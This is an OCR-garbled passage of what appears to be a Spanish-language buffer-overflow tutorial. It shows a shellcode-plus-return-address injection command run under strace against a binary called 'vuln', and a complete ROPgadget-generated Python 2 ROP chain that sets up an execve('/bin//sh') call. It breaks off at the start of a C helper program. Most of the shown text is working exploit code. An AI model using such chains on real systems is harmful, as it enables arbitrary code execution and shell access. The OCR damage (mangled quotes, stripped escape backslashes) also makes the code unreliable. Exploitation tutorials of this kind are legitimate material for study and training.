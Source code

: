 ```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  
Genera el siguiente código  
`#!/usr/bin/env python2  
# execve generated by ROPgadget`

from struct import pack

\# Padding goes here  
p = »

p += pack(‘<I’, 0xf7ddf52c) # pop esi ; ret  
p += pack(‘<I’, 0xf7f9b004) # @ .data  
p += pack(‘<I’, 0xf7dc5aae) # pop edx ; ret  
p += ‘/bin’  
p += pack(‘<I’, 0xf7e4a686) # mov dword ptr \[esi\], edx ; pop ebx ; pop esi ; ret  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0xf7ddf52c) # pop esi ; ret  
p += pack(‘<I’, 0xf7f9b008) # @ .data + 4  
p += pack(‘<I’, 0xf7dc5aae) # pop edx ; ret  
p += ‘//sh’  
p += pack(‘<I’, 0xf7e4a686) # mov dword ptr \[esi\], edx ; pop ebx ; pop esi ; ret  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0xf7ddf52c) # pop esi ; ret  
p += pack(‘<I’, 0xf7f9b00c) # @ .data + 8  
p += pack(‘<I’, 0xf7df804e) # xor edx, edx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0xf7e4a686) # mov dword ptr \[esi\], edx ; pop ebx ; pop esi ; ret  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0x41414141) # padding  
p += pack(‘<I’, 0xf7dddeb5) # pop ebx ; ret  
p += pack(‘<I’, 0xf7f9b004) # @ .data  
p += pack(‘<I’, 0xf7e01e03) # pop ecx ; ret  
p += pack(‘<I’, 0xf7f9b00c) # @ .data + 8  
p += pack(‘<I’, 0xf7dc5aae) # pop edx ; ret  
p += pack(‘<I’, 0xf7f9b00c) # @ .data + 8  
p += pack(‘<I’, 0xf7df321f) # xor eax, eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dcf5ec) # inc eax ; ret  
p += pack(‘<I’, 0xf7dc6d37) # int 0x80  
Añado al final un `print p` y redirecciono la salida a `a.txt`.  
Me escribo un programita en C  

    #include <stdio.h>
    #include <ctype.h>
    #include <stdlib.h>

void panic(char\* s)  
{  
perror(s);  
exit(-1);  
```